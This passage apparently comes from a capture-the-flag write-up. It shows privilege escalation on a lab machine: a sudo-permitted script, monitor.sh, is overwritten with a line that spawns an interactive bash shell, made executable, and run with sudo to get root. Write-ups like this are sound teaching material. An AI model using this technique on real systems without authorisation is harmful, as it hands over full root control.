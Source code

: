 Created a file `monitor.sh` and replaced the existing file 
```bash
#!/bin/bash

/bin/bash -i
```

- make file executable
```bash
chmod +x monitor.sh
```
- execute file
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```
![[Pasted image 20240831192040.png]]

Successfully gained system as user `root`

